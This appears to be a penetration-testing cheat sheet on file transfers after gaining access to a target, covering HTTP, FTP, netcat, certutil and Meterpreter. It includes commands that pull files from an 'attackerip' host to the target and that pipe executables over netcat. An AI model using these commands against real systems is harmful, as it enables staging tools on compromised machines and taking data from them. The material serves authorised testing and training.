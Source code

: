 # File transfers

Once we gain initial access to our target we may need to upload additional tools to help us elevate privileges or provide easier methods of accessing the machine at a later point.  We might also want to download files from the target for use in our report.  The following list provides a few common techniques for executing file transfers.

### HTTP

On our attacking machine we have two options for serving files.  The first \(preferred\) method is to run the SimpleHTTPServer Python module in the directory that contains the files we want to transfer.

```text
python -m SimpleHTTPServer 80
python3 -m http.server 80
```

Our second option is to use our built in Apache server.  To do this we need start the Apache 2 service.  Once started our files will be served from var/www/html.

```text
systemctl start Apache2 
```

Next, we use our target machine to request the desired filed from the server.  The method varies slightly depending on the OS of the target machine.

#### **Linux**

```text
wget http://sample.com/file.pdf
wget -O report_wget.pdf https://sample.com/report-2013.pdf
    -O saves the file with a different name on the local machine
curl -o file.pdf http://attackerip/file.pdf
axel -a -n 20 -o report_axel.pdf https://sample.com/report.pdf
    -n --used to specify the number of connections
    -a --provides a more concise progress indicator
    -o --used to specify a different name for the downloaded file
```

#### **Windows**

```text
certutil -urlcache -f http://sourceip/file.exe [c:\desired_destination\desired_]name.exe
```

### FTP

Create an FTP server in the directory you are in, on port 21, allow anonymous access:

```text
Python -m pyftpdlib 21
ftp $IPaddressofattacker
```

### Netcat

On receiving machine: `nc -nlvp 4444 > incoming.exe`

On sending machine: `nc – nv 10.11.23.33 4444 < file.exe`

### Meterpreter shell

Upload/download feature

